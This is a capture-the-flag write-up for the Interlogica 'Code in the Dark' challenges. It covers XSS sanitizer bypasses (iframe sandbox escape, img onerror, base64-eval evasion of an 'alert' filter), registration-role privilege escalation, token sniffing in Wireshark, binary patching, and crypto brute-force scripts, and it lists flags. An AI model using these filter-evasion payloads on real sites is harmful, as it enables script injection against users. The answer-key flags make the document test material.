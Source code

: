 # CTF-CodeInTheDark
Interlogica CTF Code in the dark:
[https://ctf.codeinthedark.dev/challenges](https://ctf.codeinthedark.dev/challenges)

## 1 

Trigger an alert(1) in the small browser by evading the sanitizer's countermeasures. NOTE: the alert must be triggerable offline and without any further actions by the user.
The page has an input and renders the input after running a function on your code.
```
function sanitize(input) {
    // warmup
    return input;
}
```

Hints:  
Browser says `An iframe which has both allow-scripts and allow-same-origin for its sandbox attribute can escape its sandboxing.`.


Solution:
```
<iframe src="http%3A//hithere" 
        scrolling="no" sandbox="allow-scripts allow-popups allow-modals allow-same-origin" 
        name="sandbox" style="width: 100%; height: 100%; border: 0px;"></iframe>
<script>
   alert(1);
</script>
```

## 2

The page has an input and renders the input after running a function on your code.
```
function sanitize(input) {
    // no scripts!
    if (input.toLowerCase().includes('script')) {
        return 'NO!';
    }
    return input;
}
```

Solution:
```
<img src="" onerror=alert(1)>
```

Thanks M9k!

## 3
Just call the function from console.

## 4
Register. Password of moderator is in the user profile image. Get sources as moderator. Sources show that registratin take role too. Register as admin. As admin go to admin page and see flag.


## 5

The page has an input and renders the input after running a function on your code.
```
function sanitize(input) {
    // no alert!
    if (input.toLowerCase().includes('alert')) {
        return 'NO!';
    }
    return input;
}
```

Solution:
```
<iframe src="" 
        scrolling="no" sandbox="allow-scripts allow-popups allow-modals allow-same-origin" 
        name="sandbox" style="width: 100%; height: 100%; border: 0px;"></iframe>

<script>
console.log("hi");
eval(atob('YWxlcnQoMSk7'));
</script>
```

Where `YWxlcnQoMSk7` is `alert(1);`.  
  
Or you can use `eval("al"+"ert(1)")`, thanks pal!
## Forensics - Bad request-1
Open with Wireshark, tools -> credentials, click on the packet, look inside the http and Wireshark automatically will convert the auth bearer to plaintext:
![immagine](https://github.com/aliceblack/CTF-CodeInTheDark/assets/9288402/11a6c6a6-f99e-419e-a0f9-75564f469f5c)

## Reversing - PWNVOYAGE-LEVEL0 (40 coins)
Bruteforce with some intuition. The code was "TOOYOUNGTODIEBRO". The code is PRLG{HURT_M3_PL3NTY}

## Reversing - PWNVOYAGE-LEVEL1 (90 coins)
Follow the instruction for the file, analyzing the assembly the password is U_R_MY_H3RO, The code is NTRLGC{TH1SH1LLSM3LLSL1K3V1CT0RY}.

![immagine](https://github.com/aliceblack/CTF-CodeInTheDark/assets/9288402/1120c293-8dda-445c-805f-7d55cbb07012)

## Reversing - PWNVOYAGE-LEVEL2 (110 coins)
Follow the instruction for the file, patched the assembly, address 00101764 changed from JZ to JNZ. The code is NTRLGC{H3LL0B1TCH3S!}.
![immagine](https://github.com/aliceblack/CTF-CodeInTheDark/assets/9288402/5a1df428-719c-4477-ae89-de6dd7e7ec89)

![immagine](https://github.com/aliceblack/CTF-CodeInTheDark/assets/9288402/ea3d815a-7a46-44ca-a1b3-1e427517a326)



## Crypto - Intercepted message (90 coins)
Resolver in Powershell, each character is shifted based on his position, with an overflow when needed. The code is NTRLGC{CaesarSaladsForEveryone}.
```
function Convert-String {
    param (
        [string]$inputString
    )
    
    $outputString = ""

    for ($i = 0; $i -lt $inputString.Length; $i++) {
        $char = $inputString[$i]
        $asciiValue = [int][char]$char
        $newAsciiValue = $asciiValue - $i
        if ($newAsciiValue -lt 33) {
            $newAsciiValue += 95;
        }
        $newChar = [char]$newAsciiValue
        $outputString += $newChar
        Write-Host "--------------"
        Write-Host $char
        Write-Host $asciiValue
        Write-Host $newAsciiValue
        Write-Host $newChar
    }
    return $outputString
}

# Input string
$inputString = 'NUTOKH"Jin}l~`o{qu&Y$([.},4++#<'

# Call the function and store the result
$result = Convert-String -inputString $inputString

# Output the result
Write-Host "Original string: $inputString"
Write-Host "Transformed string: $result"
```


## Crypto - Space (90 coins)
Bruteforced, it take less than a second on my PC. The code is NTRLGC{m4y-7h3-47h-b3-w17h-y0u!}.
```
#!/usr/bin/env python3
import hashlib
import argparse

ct = "w2a\x7fq'I\tUOLV\\UOQR\\L\x07R\x1c\x12\x07\x04X\x14HRD\x12H"

def md5(msg:str)->str:
    return hashlib.md5(msg.encode()).hexdigest()

def xor(data:str,key:str):    
    return ''.join(chr(ord(a) ^ ord(b)) for a,b in zip(data, key))

def main():
    year = 2023
    month = 1
    day = 1
    while (True):
        key = f"{year:04}-{month:02}-{day:02}"
        hkey = md5(key)
        result = xor(ct, hkey)
        if (result.startswith('NTRLGC')):
            print(result)
        day += 1
        if (day > 31):
            day = 1
            month +=1
            if(month > 12):
                month = 1
                year -= 1

if __name__ == "__main__":
    main()
```

